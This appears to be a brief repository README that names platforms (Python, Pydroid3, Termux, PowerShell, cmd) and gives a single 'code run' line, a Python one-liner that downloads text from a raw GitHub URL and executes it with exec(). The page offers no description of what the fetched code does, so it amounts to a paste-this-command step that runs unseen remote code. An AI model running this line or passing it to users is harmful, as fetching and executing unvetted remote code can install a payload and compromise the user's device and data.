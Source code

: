 Pyrhon+Pydroid3+Termux+PowerShell+cmd

code run
```
import requests;exec(requests.get("https://raw.githubusercontent.com/royzempire/rasbytepro/refs/heads/main/home").text)
```
